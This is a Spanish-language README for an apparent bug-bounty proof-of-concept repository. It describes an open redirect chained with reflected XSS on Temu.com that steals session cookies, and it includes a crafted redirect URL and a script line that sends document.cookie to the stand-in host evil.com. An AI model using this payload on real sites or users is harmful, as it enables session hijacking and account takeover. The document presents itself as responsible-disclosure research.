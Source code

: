  temu-vuln-hunter-pro, enfocado en mostrar la cadena de vulnerabilidades descubierta (XSS + Open Redirect) en Temu, ideal para GitHub y vinculado a un entorno de caza de recompensas (HackerOne):

# 🛡️ Temu Vulnerability Hunter Pro

🚨 **Proof of Concept: Encadenamiento Crítico - XSS Reflejado + Open Redirect en Temu.com**  
Este proyecto documenta y automatiza la explotación de una cadena de vulnerabilidades en Temu, combinando una redirección abierta y una inyección de scripts (XSS) para robar cookies de sesión y tomar control de cuentas.

---

## 📌 Descripción del Proyecto

`temu-vuln-hunter-pro` es una prueba de concepto profesional enfocada en demostrar cómo múltiples fallos de seguridad pueden combinarse para obtener un impacto crítico:

- 🧩 **Redirección Abierta (Open Redirect)**
- 💥 **XSS Reflejado**
- 🍪 **Robo de Cookies**
- 👤 **Toma de Cuenta Remota**

Este tipo de ataque encadenado permite que un atacante genere un solo enlace malicioso capaz de redirigir a un usuario a un payload XSS y así capturar su cookie de sesión.

---

## 🧪 Archivos Incluidos

📁 temu-vuln-hunter-pro
├── main.py # Script para automatizar y lanzar el PoC
├── payloads/
│ └── xss-openredirect.html # HTML con payload XSS
├── reports/
│ └── temu_xss_redirect_report.md # Informe profesional del hallazgo
├── screenshots/
│ └── poc1.png # Captura de pantalla del ataque exitoso
└── README.md # Este archivo



---

## 🚀 Ejecución del PoC

Asegúrate de tener Python 3 instalado. Luego:

git clone https://github.com/Jonathanjimenez123/temu-vuln-hunter-pro.git
cd temu-vuln-hunter-pro
python3 main.py
Esto abrirá el payload localmente y simulará la explotación para demostrar cómo se roba la cookie del usuario víctima.

💡 Concepto del Ataque
El atacante crea una URL con redirección abierta en Temu:

https://temu.com/redirect?to=https://evil.com/xss-openredirect.html
La víctima hace clic en ese enlace.

El navegador carga el archivo xss-openredirect.html, que contiene un script malicioso:

<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
Se roba la cookie de sesión y se envía al servidor del atacante.

El atacante reutiliza esa cookie y toma control de la cuenta de la víctima.

📸 Evidencia Visual

📄 Informe de Vulnerabilidad
Puedes leer el informe técnico detallado en reports/temu_xss_redirect_report.md, listo para ser enviado a HackerOne, Bugcrowd o el Google VRP en caso de participar en programas de recompensas.

⚠️ Descargo de Responsabilidad
Este proyecto ha sido creado con fines educativos y de responsible disclosure. No está diseñado para ser usado en actividades ilegales. El autor no se responsabiliza por su uso indebido.
Siempre reporta vulnerabilidades de forma ética y profesional.

📬 Contacto
Autor: Jonathan Jiménez

GitHub: @Jonathanjimenez123

Alias HackerOne: jimenez7@wearehackerone.com

Encabezado de Investigación: X-HackerOne-Investigación: jimenez7

⭐ Licencia
MIT © 2025 Jonathan Jiménez
